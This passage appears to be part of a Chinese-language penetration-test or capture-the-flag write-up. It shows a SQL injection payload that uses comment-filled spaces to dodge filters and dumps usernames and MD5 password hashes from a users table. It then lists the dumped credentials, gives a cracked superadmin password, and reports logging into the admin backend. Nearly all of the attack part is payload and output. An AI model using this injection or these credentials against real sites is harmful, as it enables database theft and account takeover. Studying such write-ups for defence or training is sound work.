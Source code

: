 [![](assets/1701678867-975d39cd7f14261f5e3d1f8817b95590.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203531-9e5877f6-8dea-1.png)

在看内容

```bash
OSI%'/**/union/**/select/**/group_concat(user,0x5c,pasword),2,3/**/from/**/users/**/where/**/'1'/**/like/**/'1
```

得到 user/passwd

```bash
user1\5d41402abc4b2a76b9719d911017c592,
user2\6269c4f71a55b24bad0f0267d9be5508,
user3\0f359740bd1cda994f8b55330c86d845,
test\05a671c66aefea124cc08b76ea6d30bb,
superadmin\2386acb2cf356944177746fc92523983,
test1\05a671c66aefea124cc08b76ea6d30bb,
123\e10adc3949ba59abbe56e057f20f883e
```

进行 MD5 解密一下

```bash
superadmin/Uncrackable
```

重新登录一下

成功进入后台

[![](assets/1701678867-639d0f9aec3d45031e363caa36614fa5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203539-a3658658-8dea-1.png)
